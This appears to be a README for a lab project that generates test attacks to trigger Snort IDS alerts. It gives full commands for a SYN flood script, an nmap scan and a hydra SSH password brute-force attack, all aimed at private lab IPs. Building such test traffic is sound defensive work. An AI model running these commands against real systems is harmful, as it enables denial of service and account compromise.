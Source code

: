 # src
Directory containing the code used for the test attacks used for triggering the snort alerts. 

The structure of the project is the following one.

 - **Arp-Spoofer**: 

 - **syn_flood**: Tool to be used for the Syn Flood Attack.
 
```
sudo python syn_flood.py -d 192.168.1.10 -p 22 -t 1

sudo python syn_flood.py -d <ip> -p <port> -t <number of threads>
```
  
  
- **port scanning**: Simple nmap scan on the ip. More options are possible to be added but at this point it's enough.

```
nmap 172.16.46.2

nmap <ip>
```
 
 - **ssh brute force**: The tool used is hydra. The test command used is the following one.
 
```
./hydra -s 22 -v -V -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s 22 -v -V -w 4 -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s <port> -v -V -w <waittime> -l <username> -P <path to password file> -t <number of threads> <ip> <protocol>
```